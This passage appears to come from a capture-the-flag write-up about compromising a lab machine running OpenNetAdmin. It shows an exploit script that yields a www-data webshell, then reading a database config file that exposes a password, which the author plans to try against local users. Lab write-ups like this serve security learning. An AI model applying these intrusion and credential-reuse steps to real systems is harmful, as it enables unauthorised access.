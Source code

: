 
# Footprint

## Initial Access

Using that exploit grants us a direct webshell:

```console
$ bash 47691.sh http://10.10.10.171/ona/
$ whoami
	www-data
```

## User Escalation

There are two users under `/home`{: .filepath}:

```console
$ ls /home
jimmy
joanna
```

Searching in the system with the webshell we found the following:

```console
$ cat local/config/database_settings.inc.php
```

```php
<?php

$ona_contexts=array (
  'DEFAULT' => 
  array (
    'databases' => 
    array (
      0 => 
      array (
        'db_type' => 'mysqli',
        'db_host' => 'localhost',
        'db_login' => 'ona_sys',
        'db_passwd' => 'n1nj4W4rri0R!',
        'db_database' => 'ona_default',
        'db_debug' => false,
      ),
    ),
    'description' => 'Default data context',
    'context_color' => '#D3DBFF',
  ),
);
```

We can try this credentials for both users:
